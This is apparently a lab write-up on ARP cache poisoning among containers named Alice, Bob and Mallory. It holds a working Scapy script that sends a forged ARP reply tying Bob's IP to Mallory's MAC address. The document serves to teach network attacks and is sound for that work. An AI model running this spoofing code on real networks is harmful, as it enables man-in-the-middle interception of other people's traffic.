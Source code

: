 We firstly ping Alice from Bob

![Alice ARP Cache](./alice_arp_1b_before.png)

The ARP table on Alice shows that Bob's IP address (10.0.182.2) is correctly mapped to his actual MAC address (02:42:0a:00:b6:02), indicating a legitimate network communication between Alice and Bob.

## Attack Execution

Below is the Python script executed from Mallory's container to carry out the ARP reply attack, leading to the ARP cache poisoning on Alice's machine:


```python
from scapy.all import *

# IP and MAC addresses for Alice, Bob, and Mallory
alice_ip = "10.0.182.4"
alice_mac = "02:42:0a:00:b6:04"

bob_ip = "10.0.182.2"
bob_mac = "02:42:0a:00:b6:02"

mallory_mac = "02:42:0a:00:b6:03"
mallory_ip = "10.0.182.3"

# Constructing the Ethernet frame to target Alice from Mallory
ethernet_frame = Ether(src=mallory_mac, dst=alice_mac)

# Creating an ARP reply pretending that Mallory's MAC is associated with Bob's IP
arp_reply = ARP(hwsrc=mallory_mac, psrc=bob_ip, hwdst=alice_mac, pdst=alice_ip, op=2)

# Combining the Ethernet and ARP layers
packet = ethernet_frame / arp_reply

# Sending the packet on the network interface, typically "eth0"
sendp(packet, iface="eth0")

print("ARP reply sent to Alice, associating Bob's IP with Mallory's MAC.")
```

![Alice ARP Cache](./alice_arp_1b_after.png)
